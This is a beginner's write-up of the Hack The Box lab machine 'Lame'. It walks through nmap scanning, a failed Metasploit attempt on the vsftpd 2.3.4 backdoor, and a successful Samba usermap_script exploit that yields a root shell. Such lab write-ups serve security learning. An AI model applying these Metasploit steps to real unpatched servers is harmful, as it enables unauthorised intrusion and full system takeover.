 # Title: Lame
  Date: 2019-10-11

This box is rated very easy, probably the easiest there is. I've played with HTB a bit but never really focused much on it. I'm planning to work through the boxes starting with the easiest. I've done a few but have always been _very_ bad at documenting things. So this is my first actual writeup. 

## Enumeration

Started with a quick scan of common ports:

```
sudo nmap -PE -PM -PS 21,22,23,25,26,53,80,81,110,111,113,135,139,143,179,199,443,445,465,514,548,554,587,993,995 lame
```

Kicked off a more thorough scan in parallel, but killed it since it seemed very unnecessary:

```
sudo nmap -p 1-65535 -sV -sS -T4 lame
```

The quick scan returned the following open ports:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## FTP Red Herring? Or bad hacker?

The first thing I did was check out the ftp server. I was able to log in anonymously and noticed the server was vsFTPd v2.3.4. I recognized this as a pretty cool possible vulnerability and think I may have actually used it for a CTF challenge I built a few years back. Here is the background:

> This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011. 

I then kicked off Metasploit (msfconsole) and searched for vsftpd:

```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

Selected the exploit:

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Looked at the options:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)
```

Set the RHOSTS to the lame IP (I added an entry to my hosts file to make life easier):

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts lame
rhosts => lame
```
And then kicked off the exploit:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

The exploit didn't work out of the box so I moved on thinking maybe this was a trick and the vulnerable version of the server was not installed on the box. Since this box is rated super easy I figured it wouldn't take that much work.

## Samba

I moved on to the Samba shares. I first used the Impacket (https://github.com/SecureAuthCorp/impacket) smbclient.py script to try connecting:

```
smbclient.py lame
```

I found some shares but nothing really very interesting on them. I also ran "enum4linux" on the box but didn't really make it to going through the results because while it was running I moved on to just doing a bit of research and just did a search on "exploit open smb share". I came across this site: 
https://resources.infosecinstitute.com/hacking-and-gaining-access-to-linux-by-exploiting-samba-service/#gref 

I ran through the Metasploit enumeration and was kinda shocked when a shell just popped. 

I ran through the following:

```
use auxiliary/scanner/smb/smb_version
...set up options and executed...
```

and then:

```
use exploit/multi/samba/usermap_script
...set up options and executed...
```

To my surprise running this popped a shell?! I was kind of blindly following the site and didn't realize it would actually work.

## User flag

Once I got the shell I found the user flag under /home/makis

## Root flag

I ran "whoami" and was surprised that I'd popped a root shell. The root flag was surpringly in the /root folder.

## Endnotes

I'm curious to go take a look at other writeups for this one. I have a feeling there are several ways to get into this one. 

Here are the details on the Samba exploit that surprised me:

> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! 